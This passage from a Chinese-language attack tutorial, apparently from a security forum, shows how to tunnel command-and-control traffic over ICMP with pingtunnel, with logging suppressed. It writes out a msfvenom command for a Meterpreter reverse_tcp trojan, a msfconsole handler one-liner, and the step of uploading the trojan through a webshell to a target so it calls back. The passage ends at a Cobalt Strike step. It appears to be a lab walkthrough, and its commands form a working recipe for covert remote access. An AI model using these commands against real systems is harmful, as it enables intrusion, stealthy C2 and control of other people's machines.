 ![071](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ace85cb53d1c0426e3f93fac5418d5b3124718f1.jpg)

### 3 客户端开启

上传客户端

![072](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ecf1e05d404685d0ef195f632c320b2ffdeb70de.jpg)

```php
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1

pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.3.76 -t 192.168.3.76:7777 -tcp 1 -noprint 1 -nolog 1
```

![073](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ce305d9f1ba330b6ba4ab24ab32daab05368d004.jpg)

客户端本地监听9999端口 ，将监听到的连接通过icmpserver发送到Linsten\_ip:7777端口

执行后，kali有回显

![074](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-433a06ffcddd17a3992f2ddf0e75849588d0eeed.jpg)

### 4 MSF上线

制作木马，木马的回连地址为127.0.0.1:9999,运行上线  
MSF

```php
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=9999 -f exe -o ch4nge.exe
```

![075](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-92850d44cf6d6cc68183445f5a1c57758d50f8eb.jpg)

监听

```php
msfconsole -x &amp;quot;use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.3.76; set lport 7777; exploit -j; &amp;quot;
```

![076](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ace773221ac939303182b78cef3ef4f15f6ad7b7.jpg)

把木马ch4nge.exe从蚁剑上传到靶机，运行  
![077](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7ad35b989d49afad27bbf08414c320dbd285dfc2.jpg)

![078](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fc366fa59a1aac28c2ec5d25327e6bca45bdd1c2.jpg)

### 5 CS上线

```php
pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.3.76 -t 192.168.3.76:7777 -tcp 1 -noprint 1 -nolog 1
```
